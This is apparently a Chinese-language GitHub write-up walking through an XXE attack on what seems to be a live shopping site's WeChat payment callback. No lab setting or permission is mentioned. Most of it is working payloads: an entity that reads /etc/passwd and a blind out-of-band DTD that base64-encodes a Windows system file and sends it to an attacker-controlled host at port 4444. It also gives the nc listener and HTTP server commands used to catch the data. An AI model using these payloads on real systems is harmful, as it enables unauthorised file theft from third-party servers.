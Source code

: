 # -实战xxe
原理:
XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。</br>
具体学习:https://www.jianshu.com/p/77f2181587a4</br>
### 实战开始:
首先目标是一个商城网站,微信支付处存在xml传输 /plugin/payment/wechat/notify_url.php</br>
传入正常的xml进行探测:</br>
```
<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```
返回结果</br>
![1.jpg](https://i.loli.net/2019/06/10/5cfdde5d7fe3416843.jpg)</br>

正常响应</br>
传入攻击payload读取文件</br>
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>

```
也是正常响应但无回显</br>
说明此处利用应该要用 Blind OOB XXE（使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据）</br>
准备一台远程服务器  上面编辑好dtd文件准备被目标连接读取</br>
dtd文件内容</br>
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:4444?p=%file;'>">
```
![2.jpg](https://i.loli.net/2019/06/10/5cfdde5d4a32b42833.jpg)</br>
对目标服务器进行xxe攻击</br>
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
![5cfde3e8869c320141.jpg.jpg](https://i.loli.net/2019/06/10/5cfde3e8869c320141.jpg)</br>
于此同时服务器开启80端口 和 监听4444端口</br>
命令如下</br>
```
nc -lvv 4444
ctrl z
bg
python -m SimpleHTTPServer 80
```
![6.jpg](https://i.loli.net/2019/06/10/5cfdde5d6b21058186.jpg)</br>
对目标发送请求，服务器收到回显</br>
![7.jpg](https://i.loli.net/2019/06/10/5cfddff85862528530.jpg)</br>
base64解码</br>
![4.jpg](https://i.loli.net/2019/06/10/5cfdde5d545e486392.jpg)</br>
